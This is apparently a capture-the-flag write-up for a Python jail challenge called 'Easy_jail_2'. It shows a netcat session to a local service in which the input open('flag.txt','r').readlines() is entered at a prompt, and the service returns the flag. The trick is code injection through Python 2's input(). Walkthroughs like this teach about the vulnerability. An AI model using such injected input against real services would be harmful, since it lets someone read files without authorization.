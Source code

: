# Easy_jail_2

## Write-up
- Read the file: ``flag.txt`` to get the flag
```
~ nc localhost 1337
Input: open("flag.txt","r").readlines()
['shellmates{P4yTh0n2_1nPut_1s_V3rY_D4ng3eR0u5}\n']
```
## Flag
 `shellmates{P4yTh0n2_1nPut_1s_V3rY_D4ng3eR0u5}`
